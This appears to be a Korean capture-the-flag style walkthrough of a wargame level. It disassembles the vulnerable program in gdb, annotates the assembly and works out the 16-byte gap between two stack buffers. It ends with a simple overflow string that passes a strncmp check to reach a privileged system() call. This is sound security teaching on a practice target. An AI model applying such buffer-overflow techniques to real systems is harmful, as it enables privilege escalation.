




# level 9

* id : `level9`
* pw : `apple`



우선 버퍼 오버플로우를 해야하니 해당 프로그램을 gdb 해보자

해당 프로그램 권한으로 gdb가 안되니 소스코드를 복사해 만들면 된다
```
cd tmp
vim test.c
(소스코드 입력)
gcc test.c
./a.out
```




정상적으로 파일이 만들어졌다. gdb로 디버깅해보자

```
gdb a.out
set disassembly-flavor intel
disas main
```
위와 같이 gdb를 켜고, main 함수를 disas해보면 아래처럼 나온다.


```python
0x08048420 <main+0>:    push   ebp
0x08048421 <main+1>:    mov    ebp,esp
0x08048423 <main+3>:    sub    esp,0x28             # 함수 프롤로그 종료
0x08048426 <main+6>:    and    esp,0xfffffff0
0x08048429 <main+9>:    mov    eax,0x0
0x0804842e <main+14>:   sub    esp,eax
0x08048430 <main+16>:   sub    esp,0xc
0x08048433 <main+19>:   push   0x8048554            # It can be overflow 문자열 주소
0x08048438 <main+24>:   call   0x8048350 <printf>
0x0804843d <main+29>:   add    esp,0x10             # 함수 종료 후 정리
0x08048440 <main+32>:   sub    esp,0x4
0x08048443 <main+35>:   push   ds:0x8049698
0x08048449 <main+41>:   push   0x28                 # 0x28 == 40만큼의 길이를
0x0804844b <main+43>:   lea    eax,[ebp-40]         # ebp-40 공간의 배열을 fgets함
0x0804844e <main+46>:   push   eax                  # 기타 인수(stdin)
0x0804844f <main+47>:   call   0x8048320 <fgets>
0x08048454 <main+52>:   add    esp,0x10             # 함수 종료 후 정리
0x08048457 <main+55>:   sub    esp,0x4
0x0804845a <main+58>:   push   0x2
0x0804845c <main+60>:   push   0x804856a
0x08048461 <main+65>:   lea    eax,[ebp-24]         # ebp-24 공간의 배열을 strncmp함
0x08048464 <main+68>:   push   eax
0x08048465 <main+69>:   call   0x8048330 <strncmp>
0x0804846a <main+74>:   add    esp,0x10             # 함수 종료 후 정리
0x0804846d <main+77>:   test   eax,eax
0x0804846f <main+79>:   jne    0x80484a6 <main+134>
0x08048471 <main+81>:   sub    esp,0xc
0x08048474 <main+84>:   push   0x804856d
0x08048479 <main+89>:   call   0x8048350 <printf>
0x0804847e <main+94>:   add    esp,0x10             # 함수 종료 후 정리
0x08048481 <main+97>:   sub    esp,0x8
0x08048484 <main+100>:  push   0xbc2
0x08048489 <main+105>:  push   0xbc2
0x0804848e <main+110>:  call   0x8048360 <setreuid>
0x08048493 <main+115>:  add    esp,0x10
0x08048496 <main+118>:  sub    esp,0xc
0x08048499 <main+121>:  push   0x804857a
0x0804849e <main+126>:  call   0x8048310 <system>
0x080484a3 <main+131>:  add    esp,0x10
0x080484a6 <main+134>:  leave
0x080484a7 <main+135>:  ret
```

잘 보면, [ebp-40] 과 [ebp-24] 에다가 각각 fgets, strncmp를 하므로 각각의 주소가 가르키는곳이 buf, buf2 임을 알수있고, 그 차이가 40-24 = 16 만큼 차이가 나는것을 알수있다.




다시말해서, 이런식으로 현재 배열이 놓여져 있는 것이다.

중간에 더미가 존재하는 이유는, [메모리 관리를 효율적으로 하기 위해서이다.](https://en.wikipedia.org/wiki/Fragmentation_%28computing%29#Internal_fragmentation)

---

아무튼, fgets를 최대 40바이트까지 가져올 수 있으므로 마음 놓고 버퍼 오버플로우를 진행해 buf2까지 침범하면 된다.

더미까지 16바이트를 할당하므로, `(16바이트 글자) + go`를 입력하면 된다.

```
1234567890123456go
```



GG!